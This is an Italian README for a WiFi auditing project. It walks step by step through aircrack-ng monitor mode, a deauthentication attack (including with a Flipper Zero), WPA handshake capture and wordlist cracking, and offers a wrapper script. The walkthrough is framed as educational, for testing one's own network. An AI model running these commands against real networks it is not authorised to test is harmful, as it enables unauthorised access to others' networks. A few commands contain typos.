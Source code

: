 # Main

Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

Per seguire questa semplificare i vari comandi di testing, abbiamo creato un tool da eseguire in shell linux. Nella guida troverete sia come usare il tool che i comandi da eseguire manualmente. Ricordiamo inoltre che il tool è completamente source code.

## $${\color{aqua}Automated \space script}$$

Iniziamo scaricando la repo in locale:

```bash
$ git clone https://github.com/callmenoway/HashSniffer.git
$ cd HashSniffer
```

Successivamente eseguiamo il tool:

```bash
$ chmod +x hashsniffer.sh
$ ./hashsniffer.sh
```

## $${\color{green}Guida \space manuale}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato. Iniziamo aprendo un terminale e seguendo i seguenti comandi:\


```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```

<div align="center">

<img src="../img/1.png" alt="">

</div>

Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start <YOURE WIRELESS EXTENSION>
```

<div align="center">

<img src="../img/2.png" alt="">

</div>

Successivamente per visualizzare tutte le reti disponibili:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```

\


<div align="center">

<img src="../img/4.png" alt="">

</div>

Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```

In questo modo stiamo verificando solo la rete in questione.

## $${\color{green}Deauth \space \color{red} Attack}$$

Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...). Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.\
\
Deauth attack con Flipper Zero:

<div align="center">

<img src="../img/flipper.jpg" alt="" width="300">

</div>

Attacco deauth integrato tramite il comando:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```

<div align="center">

<img src="../img/5.png" alt="">

</div>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione:\


```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```

<div align="center">

<img src="../img/6.png" alt="">

</div>

Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$

[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32).\
Deauther fai da te: [Marauder](https://github.com/justcallmekoko/ESP32Marauder).\
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
